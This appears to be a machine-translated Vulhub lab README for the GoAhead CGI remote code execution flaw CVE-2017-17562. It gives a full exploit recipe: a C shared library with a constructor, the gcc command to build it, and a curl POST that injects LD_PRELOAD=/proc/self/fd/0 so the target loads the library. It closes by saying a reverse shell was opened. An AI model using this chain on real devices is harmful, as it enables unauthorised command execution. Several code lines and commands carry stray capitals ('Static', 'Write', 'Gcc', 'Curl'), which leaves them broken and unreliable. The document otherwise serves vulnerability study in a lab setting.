

# GoAhead Remote Command Execution Vulnerability (CVE-2017-17562)

GoAhead is an open source (commercial license), simple, lightweight, powerful Web Server that can run on multiple platforms, mostly used in embedded systems and smart devices. It supports running ASP, Javascript, and standard CGI programs. This vulnerability occurs when running CGI programs.

After receiving the request, GoAhead will retrieve the key and value from the URL parameter and register it into the environment variable of the CGI program, and only filter `REMOTE_HOST` and `HTTP_AUTHORIZATION`. We have control over environment variables and there are many ways to attack. For example, in Linux, the environment variable at the beginning of `LD_` is related to the dynamic link library. For example, the dynamic link library specified in `LD_PRELOAD` will be automatically loaded; the path specified by `LD_LIBRARY_PATH` will be used by the program to find the dynamic link library. .

We can specify `LD_PRELOAD=/proc/self/fd/0` because `/proc/self/fd/0` is the standard input, and in CGI programs, the POST data stream is the standard input stream. We compile a dynamic link library, put it in the POST Body, and send it to `http://target/cgi-bin/index?LD_PRELOAD=/proc/self/fd/0`, CGI will load the dynamics we send. Link library, causing remote command execution vulnerabilities.

Reference link:

 - https://www.elttam.com.au/blog/goahead/

## vulnerability environment

Start the vulnerability environment:

```
Docker-compose up -d
```

After the startup is complete, visit `http://your-ip:8080/` to see the welcome page. Visit `http://your-ip:8080/cgi-bin/index` to view the Hello page, which is the result of CGI execution.

## Vulnerability recurrence

We first need to compile a dynamic link library and it needs to be the same as the target architecture. So in actual combat, if the other party is a smart device, you may need to cross-compile. Because Vulhub runs on a Linux x86_64 machine, we can compile it directly with a Linux PC. Dynamic link library source code:

```C
#include <unistd.h>

Static void before_main(void) __attribute__((constructor));

Static void before_main(void)
{
    Write(1, "Hello: World!\n", 14);
}
```

Thus, the `before_main` function will be called before the program is executed. Compile the above code:

```
Gcc -shared -fPIC ./payload.c -o payload.so
```

Send payload.so as post body:

```
Curl -X POST --data-binary @payload.so "http://your-ip:8080/cgi-bin/index?LD_PRELOAD=/proc/self/fd/0" -i
```

It can be seen that `Hello: world!` has been successfully output, indicating that the code in our dynamic link library has been executed:



Compile a code that bounces the shell and successfully bounces the shell:

